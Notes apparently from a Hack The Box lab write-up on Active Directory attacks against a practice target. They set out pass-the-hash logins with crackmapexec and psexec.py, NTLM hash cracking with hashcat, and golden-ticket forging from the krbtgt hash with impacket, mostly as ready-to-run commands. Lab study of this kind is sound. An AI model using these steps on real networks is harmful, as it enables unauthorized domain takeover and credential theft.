 `crackmapexec smb 10.10.10.161 -u administrator -H xfcghggaghdhlakjld`

![[Pasted image 20241212185851.png]]

Use `psexec.py` to gain access

`psexec.py -hashes <LM:NTLM> administrator@10.10.10.161`

It doesn't matter what you put for the LM

![[Pasted image 20241212190219.png]]

Now logged in as administrator.

Bonus:

Cracking #ntlmhashes with #hashcat 

`./hashcat --user -m 1000 hashes.ntlm /opt/wordlist/rockyou.txt -r rules/InsidePro-PasswordsPro.rule`

Hash file is in the form user:hash

Doing #goldenticket attack from Linux using krbtgt hash
![[Pasted image 20241212201936.png]]


Cheatsheet:
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

![[Pasted image 20241212201852.png]]

Query for domain-sid

`Get-ADDomain htb.local`

![[Pasted image 20241212202205.png]]

Create the ticket with

`python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

![[Pasted image 20241212202747.png]]

Set the ticket for impacket use
`export KRB5CCNAME=<TGS_ccache_file>`

![[Pasted image 20241212202937.png]]

Run psexec

`./psexec.py htb.local/TotallyDoesNotExist@10.10.10.161 -k -no-pass`

ensure `10.10.10.161 htb.local` is in `/etc/hosts`

Error because clock skew is too great

![[Pasted image 20241212203305.png]]

Check target machine time with nmap scan

![[Pasted image 20241212203357.png]]

Issues resolved:

![[Pasted image 20241212204627.png]]


